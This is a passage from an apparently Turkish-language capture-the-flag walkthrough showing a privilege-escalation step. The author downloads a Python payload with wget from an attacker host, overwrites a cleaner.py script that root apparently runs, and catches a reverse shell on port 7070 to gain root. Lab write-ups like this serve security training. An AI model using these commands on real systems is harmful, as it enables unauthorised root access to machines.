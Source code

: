 `cd	/tmp`

`wget	http://10.5.40.154/py.py`

`cp	py.py	/lib/log/cleaner.py`

bu	şekilde	indirdiğim	kodu	cleaner.py	'nin	içine	attım	kontrol	edelim	gelmiş	mi

![kd](images/catcl.png)

Evet	geldi	şimdi	kendi	makinemizden	7070	portunu	dinlemeye	açıyoruz	ve	2	dk	içinde	bağlantının
gelmesini	bekliyoruz.

![root](images/root.png)


Bu	kadar	artık	tüm	yetkiler	bizde!

NOTE:	Hatırlarsanız	ki	nmap	taramasının	sonucunda	ftp,	ssh	portu	da	açıktı	aynı	zamanda
aralarda	belirttiğim	farklı	bulgularda	vardı	onları	kullanmadım	elbet	root	olmak	için	farklı	bir	yöntem
daha	vardır.
